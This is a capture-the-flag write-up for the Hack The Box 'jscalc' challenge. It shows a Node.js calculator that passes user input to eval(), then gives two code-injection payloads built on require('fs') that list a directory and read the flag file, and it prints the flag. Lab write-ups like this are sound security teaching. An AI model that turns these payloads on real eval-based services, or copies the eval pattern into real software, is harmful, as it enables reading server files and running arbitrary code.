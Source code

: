 # [jscalc](https://app.hackthebox.com/challenges/jscalc)
Author: Nayanjyoti Kumar


# Table of Contents

1. BagBounty
2. Attack Vector
3. Payload


## BagBounty

In a first phase we go `bagbouty`, we were provided with the code is a good way to start.

    .
    ├── build-docker.sh
    ├── challenge
    │   ├── helpers
    │   │   └── calculatorHelper.js
    │   ├── index.js
    │   ├── package.json
    │   ├── package-lock.json
    │   ├── routes
    │   │   └── index.js
    │   ├── static
    │   │   ├── css
    │   │   │   └── main.css
    │   │   ├── favicon.png
    │   │   └── js
    │   │       └── main.js
    │   ├── views
    │   │   └── index.html
    │   └── yarn.lock
    ├── config
    │   └── supervisord.conf
    ├── Dockerfile
    ├── flag.txt
    └── supervisord.conf

Immediately in the file `web_jscalc/challenge/helpers/calculatorHelper.js` we find the presence of an `eval()` function.

    module.exports = {
        calculate(formula) {
            try {
                return eval(`(function() { return ${ formula } ;}())`);
    
            } catch (e) {
                if (e instanceof SyntaxError) {
                    return 'Something went wrong!';
                }
            }
        }
    }

<span class="underline">Attenction!</span>

    return eval(`(function() { return ${ formula } ;}())`);

-   `function() { return ${ formula }; }`

This appears to be a template literal that creates an anonymous function. The formula variable seems to contain some expression or formula that's being interpolated into this function.

-   `eval(...)`

The entire template literal is passed into eval(), which attempts to execute the code within it as JavaScript.

This code snippet seems to be constructing a function dynamically based on the formula variable and then evaluating it using eval(). This approach can be powerful but may also pose security risks, especially if the formula variable contains `user input` or untrusted data.


## Attack Vector

Googling to refresh my memory I stumble upon this ineresting [article](https://medium.com/@sebnemK/node-js-rce-and-a-simple-reverse-shell-ctf-1b2de51c1a44).

In a nutshell, we can create an `attack vector` that depending on the case can use these two functions of the library '`fs`':

`readdir()` => Just as the dir command in MS Windows or the ls command on Linux, it is possible to use the method `readdir` or `readdirSync` of the fs class to list the content of the directory. 

`readFile()` => The methods `readFile` or `readFileSync` provide the option to read the entire content of a file.


<a id="org984ccea"></a>

## Payload

Now with these fixed concepts in mind let's go forge the payload.
For read `dir`.

    require('fs').readdirSync('..').toString()

![img](![folder](https://github.com/user-attachments/assets/f960834d-8e90-4385-ae47-b4d006a1f071)
)

For read `file`.

    require('fs').readFileSync('../flag.txt').toString()

![img](![file](https://github.com/user-attachments/assets/d0d206f2-9c58-4559-8a1e-654073a8b390)
)


## HTB{c4lcul4t3d_my_w4y_thr0ugh_rc3}

